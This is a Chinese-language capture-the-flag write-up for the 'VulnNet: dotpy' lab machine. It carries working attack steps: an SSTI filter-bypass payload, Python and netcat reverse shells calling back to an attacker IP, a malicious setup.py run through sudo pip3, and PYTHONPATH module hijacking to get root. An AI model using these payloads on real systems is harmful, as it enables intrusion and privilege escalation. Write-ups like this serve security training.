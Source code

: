 # VulnNet: dotpy

是的，VulnNet Entertainment又回来了，现在以安全为重点。您再次被要求执行渗透测试，包括 Web 安全评估和 Linux 安全审核。

难度：中等
网络语言：python
这台机器的设计更具挑战性，但没有太复杂的东西。Web 应用程序不仅要求您找到易受攻击的端点，还需要绕过其安全保护。您应该注意网站为您提供的输出。整个机器都是以Python为中心的。

注意：在浏览网页时，您可能会注意到域 vulnnet.com，但是，它不是实际的虚拟主机，您无需将其添加到主机列表中。

---

## 端口扫描

    ┌──(root🐦kali)-[/home/sugobet]
    └─# nmap -sS 10.10.7.151 
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-17 10:08 CST
    Nmap scan report for 10.10.7.151
    Host is up (0.33s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT     STATE SERVICE
    8080/tcp open  http-proxy

## Web枚举

进web一看，又是登录页面，爆管理员用户名、sql注入均失败

不过有一个注册页面，注册一个账号并登录

后台是一个很眼熟但我又记不起来的系统

后台空到不能再空了，比白纸还要干净，妥妥的兔子洞

gobuster扫目录：

    ┌──(root🐦kali)-[/home/sugobet]
    └─# gobuster dir --url http://10.10.7.151:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt

又报错：

    Error: the server returns a status code that matches the provided options for non existing urls. http://10.10.7.151:8080/8ef97609-413e-43a5-b3b4-8b8a16ebc675 => 403 (Length: 3000). To continue please exclude the status code or the length

## SSTI

当我在访问任意不存在的页面时，服务端返回结果：

- http://10.10.7.151:8080/jhfffcvgv


    404

    SORRY!

    The page you’re looking for was not found.

    No results for jhfffcvgv
    Back to home

    © VulnNet Entertainment - Contact: hello@vulnnet.com

熟悉的页面，熟悉的回显，熟悉的No results for

其实在打开这道题之前我就已经猜到可能是ssti了，因为题目打上了web和python的tag，我一下子就联想到flask和django

poc:

    http://10.10.7.151:8080/{{1 + 1}}

成功回显2

题目说了有安全防护

fuzzing出“. _”是被禁用的

试出报错，报错暴露了源码：

    if "." in s or "_" in s or "[" in s or "]" in s:

使用attr利用python 16进制绕过

    _ : \x5f
    . : \x2e


我们使用python来reverse shell

    python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.39.48",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'

将payload转\x 16进制，这里可以使用cyberchef的to hex

    \x70\x79\x74\x68\x6f\x6e\x33\x20\x2d\x63\x20\x27\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x6f\x73\x2c\x70\x74\x79\x3b\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x3b\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x22\x31\x30\x2e\x31\x34\x2e\x33\x39\x2e\x34\x38\x22\x2c\x38\x38\x38\x38\x29\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x3b\x70\x74\x79\x2e\x73\x70\x61\x77\x6e\x28\x22\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x22\x29\x27

由于“_.”被禁用，所以只好使用attr来达到目的：

    ''.__class__.__base__.__subclasses__().__getitem__(401)

最终payload:

    {{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(401)|attr('<hex code>',shell=True,stdout=-1)|attr('communicate')()}}

成功getshell

    web@vulnnet-dotpy:~/shuriken-dotpy$ id
    id
    uid=1001(web) gid=1001(web) groups=1001(web)

## 横向移动

sudo -l发现：

    User web may run the following commands on vulnnet-dotpy:
        (system-adm) NOPASSWD: /usr/bin/pip3 install *

：

    web@vulnnet-dotpy:/home$ cd /tmp
    web@vulnnet-dotpy:/tmp$ mkdir ./hack
    web@vulnnet-dotpy:/tmp$ echo "import os;os.system('mkfifo /tmp/f1;nc 10.14.39.48 9999 < /tmp/f1 | /bin/bash > /tmp/f1')" > ./hack/setup.py
    web@vulnnet-dotpy:/tmp$ ls -la ./hack
    total 12
    drwxr-xr-x  2 web  web  4096 Jan 17 06:56 .
    drwxrwxrwt 13 root root 4096 Jan 17 06:55 ..
    -rw-r--r--  1 web  web    65 Jan 17 06:56 setup.py
    web@vulnnet-dotpy:/tmp$ chmod 777 ./hack/setup.py

开启nc监听

执行pip:

    web@vulnnet-dotpy:/tmp$ sudo -u system-adm /usr/bin/pip3 install ./hack

成功移动到system-adm

    python3 -c "import pty;pty.spawn('/bin/bash')"
    system-adm@vulnnet-dotpy:/tmp/pip-fc77uh7a-build$ id
    id
    uid=1000(system-adm) gid=1000(system-adm) groups=1000(system-adm),24(cdrom)

user.txt在system-adm的家目录下

## 权限提升

又是sudo -l

    User system-adm may run the following commands on vulnnet-dotpy:
        (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py

可以看到SETENV，已经猜到要做什么了

无权修改：

    system-adm@vulnnet-dotpy:~$ ls -la /opt/backup.py
    -rwxrwxr-- 1 root root 2125 Dec 21  2020 /opt/backup.py

读取该文件，第一时间我想到的就是篡改环境变量，但是我还是阅读了代码，看看代码有没有什么猫腻

嗯没看出来，该代码就是将/home/manage做一个zip备份到/var/backups

既然代码可能没啥东西，那么就试试环境变量

创建zipfile.py并写入以下内容：

    system-adm@vulnnet-dotpy:~/hackkk$ echo "import os;os.setuid(0);os.system('/bin/bash -p')" > ./zipfile.py

执行：

    sudo PYTHONPATH=/home/system-adm/hackkk /usr/bin/python3 /opt/backup.py

成功getroot

root.txt

    root@vulnnet-dotpy:/home/system-adm/hackkk# id
    uid=0(root) gid=0(root) groups=0(root)
    root@vulnnet-dotpy:/home/system-adm/hackkk# cat /root/root.txt
